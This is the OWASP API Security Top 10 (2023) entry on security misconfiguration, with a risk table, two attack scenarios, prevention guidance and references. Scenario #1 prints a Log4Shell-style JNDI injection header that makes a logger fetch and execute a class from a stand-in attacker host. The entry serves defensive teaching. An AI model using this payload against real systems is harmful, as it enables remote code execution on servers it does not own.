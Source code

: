 # API8:2023 Security Misconfiguration

| Threat agents/Attack vectors                                                                                                                                                                                                                                                                | Security Weakness                                                                                                                                                                                                                          | Impacts                                                                                                                          |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------- |
| API Specific : Exploitability **Easy**                                                                                                                                                                                                                                                      | Prevalence **Widespread** : Detectability **Easy**                                                                                                                                                                                         | Technical **Severe** : Business Specific                                                                                         |
| Attackers will often attempt to find unpatched flaws, common endpoints, services running with insecure default configurations, or unprotected files and directories to gain unauthorized access or knowledge of the system. Most of this is public knowledge and exploits may be available. | Security misconfiguration can happen at any level of the API stack, from the network level to the application level. Automated tools are available to detect and exploit misconfigurations such as unnecessary services or legacy options. | Security misconfigurations not only expose sensitive user data, but also system details that can lead to full server compromise. |

## Is the API Vulnerable?

The API might be vulnerable if:

- Appropriate security hardening is missing across any part of the API stack,
  or if there are improperly configured permissions on cloud services
- The latest security patches are missing, or the systems are out of date
- Unnecessary features are enabled (e.g. HTTP verbs, logging features)
- There are discrepancies in the way incoming requests are processed by servers
  in the HTTP server chain
- Transport Layer Security (TLS) is missing
- Security or cache control directives are not sent to clients
- A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
- Error messages include stack traces, or expose other sensitive information

## Example Attack Scenarios

### Scenario #1

An API back-end server maintains an access log written by a popular third-party
open-source logging utility with support for placeholder expansion and JNDI
(Java Naming and Directory Interface) lookups, both enabled by default. For
each request, a new entry is written to the log file with the following
pattern: `<method> <api_version>/<path> - <status_code>`.

A bad actor issues the following API request, which gets written to the access
log file:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Due to the insecure default configuration of the logging utility and a
permissive network outbound policy, in order to write the corresponding entry
to the access log, while expanding the value in the `X-Api-Version` request
header, the logging utility will pull and execute the `Malicious.class` object
from the attacker's remote controlled server.

### Scenario #2

A social network website offers a "Direct Message" feature that allows users to
keep private conversations. To retrieve new messages for a specific
conversation, the website issues the following API request (user interaction is
not required):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the `Cache-Control` HTTP response
header, private conversations end-up cached by the web browser, allowing
malicious actors to retrieve them from the browser cache files in the
filesystem.

## How To Prevent

The API life cycle should include:

- A repeatable hardening process leading to fast and easy deployment of a
  properly locked down environment
- A task to review and update configurations across the entire API stack. The
  review should include: orchestration files, API components, and cloud
  services (e.g. S3 bucket permissions)
- An automated process to continuously assess the effectiveness of the
  configuration and settings in all environments

Furthermore:

- Ensure that all API communications from the client to the API server and any
  downstream/upstream components happen over an encrypted communication channel
  (TLS), regardless of whether it is an internal or public-facing API.
- Be specific about which HTTP verbs each API can be accessed by: all other
  HTTP verbs should be disabled (e.g. HEAD).
- APIs expecting to be accessed from browser-based clients (e.g., WebApp
  front-end) should, at least:
  - implement a proper Cross-Origin Resource Sharing (CORS) policy
  - include applicable Security Headers
- Restrict incoming content types/data formats to those that meet the business/
  functional requirements.
- Ensure all servers in the HTTP server chain (e.g. load balancers, reverse
  and forward proxies, and back-end servers) process incoming requests in a
  uniform manner to avoid desync issues.
- Where applicable, define and enforce all API response payload schemas,
  including error responses, to prevent exception traces and other valuable
  information from being sent back to attackers.

## References

### OWASP

- [OWASP Secure Headers Project][1]
- [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
- [Testing for Error Handling - Web Security Testing Guide][3]
- [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

- [CWE-2: Environmental Security Flaws][5]
- [CWE-16: Configuration][6]
- [CWE-209: Generation of Error Message Containing Sensitive Information][7]
- [CWE-319: Cleartext Transmission of Sensitive Information][8]
- [CWE-388: Error Handling][9]
- [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
- [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
- [Guide to General Server Security][12], NIST
- [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
